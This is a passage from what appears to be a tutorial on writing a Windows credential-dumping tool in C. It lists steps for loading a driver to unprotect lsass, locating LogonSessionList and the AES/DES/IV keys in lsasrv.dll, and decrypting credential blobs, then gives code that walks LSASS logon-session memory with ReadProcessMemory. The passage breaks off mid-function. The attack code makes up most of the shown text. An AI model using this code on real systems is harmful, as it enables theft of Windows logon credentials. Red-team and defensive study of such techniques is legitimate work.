 ```c
keysOut->IVKeyLen = sizeof(IV);

```

Here is where we're at:
1. Create driver ✔️
2. Load driver ✔️
3. Unprotect lsass ✔️
4. Get lsass process handle ✔️
5. Find lsasrv.dll in lsass memory space ✔️
6. Find `LogonSessionList` pattern match address in lsasrv.dll✔️
7. Find AES/DES/IV Key pattern match address in lsasrv.dll ✔️
8. 9. Extract AES / DES / IV Keys✔️
9. Read through LogonSessionList for encrypted security blobs
10. Decrypt encrypted security blob
11. MONEY!

Just a little bit more everyone!
## Reading Security Blobs

We looped through the LogonSessionList when we printed usernames, so we're going to use a very similar process.  If this part still confuses you, I recommend re-reading that section or checking out the pykd article linked above!

The only difference in this first part is that we're finding our keys, which we just talked about above.

```c

void getSecurityBlob(HANDLE hTarget, PVOID pLogonSessionList, PVOID pKeysBase) {


	ENC_KEYS keys = { 0 };
	findKeys(hTarget, pKeysBase, &keys);


	// Step 1: read the head pointer (points into LSASS memory)
	PKIWI_MSV1_0_LIST_63 headPtr = NULL;
	if (!ReadProcessMemory(hTarget, pLogonSessionList, &headPtr, sizeof(headPtr), NULL) || !headPtr) {
		printf("[-] Failed to read head pointer\n");
		return;
	}

	// Step 2: read the head node structure
	KIWI_MSV1_0_LIST_63 head = { 0 };
	if (!ReadProcessMemory(hTarget, headPtr, &head, sizeof(head), NULL)) {
		printf("[-] Failed to read head struct\n");
		return;
	}
	// Step 3: iterate the linked list
	PKIWI_MSV1_0_LIST_63 current = head.Flink;
	while (current && current != headPtr) {
		KIWI_MSV1_0_LIST_63 node = { 0 };
		if (!ReadProcessMemory(hTarget, current, &node, sizeof(node), NULL)) {
			printf("[-] Failed to read node @ %p\n", current);
			break;
		}
		printf("\n\nLOCAL KIWI STRUCT 0x%p\n", &node);
```
